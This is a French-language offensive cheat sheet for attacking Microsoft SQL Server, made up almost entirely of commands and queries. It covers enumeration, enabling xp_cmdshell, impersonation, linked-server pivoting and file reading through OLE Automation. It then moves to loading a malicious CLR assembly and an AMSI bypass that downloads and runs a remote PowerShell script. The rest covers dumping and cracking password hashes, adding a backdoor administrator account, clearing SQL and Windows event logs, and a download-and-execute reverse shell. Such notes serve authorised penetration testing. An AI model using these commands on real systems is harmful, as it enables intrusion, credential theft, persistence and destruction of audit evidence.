

## Reconnaissance d'instance

```bash
sqlcmd -L
```

```powershell
Get-Process | Where-Object { $_.ProcessName -match "sql" }
```

```powershell
tasklist | findstr /I "sql"
```

> [!note]
> Si **sqlcmd -L** ne retourne aucun résultat, l'instance peut être masquée ou non broadcastée. Tenter une connexion directe sur **MSSQLSERVER** ou **SQLEXPRESS**.

## Vérification des accès

```bash
sqlcmd -S NOM_SERVEUR\INSTANCE -E
```

```bash
sqlcmd -S NOM_SERVEUR\INSTANCE -U utilisateur -P "motdepasse"
```

```sql
SELECT SYSTEM_USER, USER_NAME();
GO
```

## Enumération des privilèges

```sql
SELECT name FROM master.dbo.sysdatabases;
GO
```

```sql
SELECT name FROM sys.sql_logins;
GO
```

```sql
SELECT is_srvrolemember('sysadmin');
GO
```

```sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
GO
```

## Manipulation de xp_cmdshell

> [!danger]
> L'activation de **xp_cmdshell** est hautement bruyante dans les logs SIEM.

```sql
EXEC xp_cmdshell 'whoami';
GO
```

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Impersonation

> [!warning]
> L'impersonation nécessite le privilège **IMPERSONATE** sur le compte cible.

```sql
SELECT DISTINCT b.name FROM sys.server_permissions a 
INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id 
WHERE a.permission_name = 'IMPERSONATE';
GO
```

```sql
EXECUTE AS LOGIN = 'nom_utilisateur';
SELECT SUSER_NAME();
GO
```

## Exploitation des Linked Servers

```sql
SELECT name, data_source FROM sys.servers;
GO
```

```sql
EXECUTE ('SELECT SYSTEM_USER') AT [NOM_SERVEUR_LIE];
GO
```

```sql
EXECUTE ('EXEC xp_cmdshell ''whoami''') AT [NOM_SERVEUR_LIE];
GO
```

## Exfiltration de données via OLE Automation Procedures

Les procédures OLE Automation permettent d'interagir avec des objets COM. Elles peuvent être utilisées pour lire des fichiers locaux ou exfiltrer des données via des requêtes HTTP.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;
```

```sql
DECLARE @object int;
DECLARE @hr int;
DECLARE @fileContents varchar(8000);
EXEC @hr = sp_OACreate 'Scripting.FileSystemObject', @object OUT;
EXEC @hr = sp_OAMethod @object, 'OpenTextFile', @object OUT, 'C:\Windows\win.ini', 1;
EXEC @hr = sp_OAMethod @object, 'ReadAll', @fileContents OUT;
PRINT @fileContents;
EXEC @hr = sp_OADestroy @object;
```

## Utilisation de CLR Assemblies pour l'exécution de code

L'injection d'un assembly .NET malveillant permet une exécution de code dans le contexte du processus SQL Server, contournant souvent les restrictions sur **xp_cmdshell**.

```sql
-- Nécessite le niveau de confiance 'UNSAFE'
ALTER DATABASE [NomBase] SET TRUSTWORTHY ON;
GO
CREATE ASSEMBLY [MaliciousAssembly] FROM 'C:\temp\payload.dll' WITH PERMISSION_SET = UNSAFE;
GO
CREATE PROCEDURE [dbo].[RunCommand] @cmd NVARCHAR(MAX) AS EXTERNAL NAME [MaliciousAssembly].[StoredProcedures].[RunCommand];
GO
```

## Détails sur le contournement des politiques d'exécution PowerShell (AMSI)

Lors de l'exécution de payloads via MSSQL, AMSI peut bloquer les scripts malveillants. Un contournement en mémoire est nécessaire.

```sql
-- Exemple de contournement AMSI via obfuscation ou chargement dynamique
EXEC xp_cmdshell 'powershell -Command "$s=[Ref].Assembly.GetType(''System.Management.Automation.AmsiUtils'');$f=$s.GetField(''amsiInitFailed'',''NonPublic,Static'');$f.SetValue($null,$true);IEX(New-Object Net.WebClient).DownloadString(''http://IP/shell.ps1'')"';
```

## Dump de hashs

```sql
SELECT name, password_hash FROM master.sys.sql_logins;
GO
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=mssql hash.txt
```

```bash
hashcat -m 1731 hash.txt /usr/share/wordlists/rockyou.txt
```

## Persistence

> [!danger]
> La création d'utilisateurs locaux est une technique très détectable par les EDR.

```sql
EXEC xp_cmdshell 'net user hacker P@ssw0rd /add';
GO
EXEC xp_cmdshell 'net localgroup Administrators hacker /add';
GO
```

## Nettoyage des traces (logs MSSQL)

Après exploitation, il est crucial de supprimer les traces dans les logs SQL Server et le journal d'événements Windows.

```sql
-- Effacer les logs d'erreurs SQL
EXEC sp_cycle_errorlog;
```

```powershell
# Effacer les logs d'événements Windows liés à l'activité
Clear-EventLog -LogName "Application"
Clear-EventLog -LogName "System"
```

## Reverse Shell

```sql
EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://TON_IP:PORT/shell.ps1'')"';
GO
```

```bash
nc -lvnp PORT
```

## Utilisation de impacket

> [!tip]
> Toujours vérifier le compte de service MSSQL (souvent **NT SERVICE\MSSQLSERVER**) pour évaluer l'impact réel.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py DOMAIN/USER@IP -windows-auth
```

```sql
EXEC xp_cmdshell 'whoami';
GO
```

| Action | Commande / Requête |
| :--- | :--- |
| Vérifier sysadmin | `SELECT is_srvrolemember('sysadmin');` |
| Activer xp_cmdshell | `EXEC sp_configure 'xp_cmdshell', 1;` |
| Lister serveurs liés | `SELECT name, data_source FROM sys.servers;` |
| Impersonation | `EXECUTE AS LOGIN = 'user';` |

## Liens associés
- MSSQL Enumeration
- Windows Privilege Escalation
- Lateral Movement via Linked Servers
- Post-Exploitation Persistence
```